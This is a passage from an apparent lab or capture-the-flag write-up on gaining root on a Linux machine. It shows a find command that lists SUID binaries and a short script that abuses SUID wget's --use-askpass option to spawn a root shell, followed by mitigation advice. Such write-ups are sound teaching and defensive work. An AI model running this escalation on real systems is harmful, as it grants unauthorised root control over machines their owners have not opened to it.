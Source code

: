
I can’t see my `sudo` privileges as I don’t have password for clumsyadmin, maybe we should look for it after checked `SUID` binaries.

```python
find / -perm -u=s -type f 2>/dev/null
```

![image.png](image%2014.png)

```python
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
/usr/bin/wget --use-askpass=$TF 0
```

![image.png](image%2015.png)

Now our effective ID is root.

## Mitigation

- **Restrict API functionalities** and ensure proper **authentication and validation** on file uploads.
- Avoid granting **SUID permissions** to binaries like `wget` that can be misused to alter system-critical files.
- Implement **AppArmor/SELinux policies** to control file access behavior of binaries.
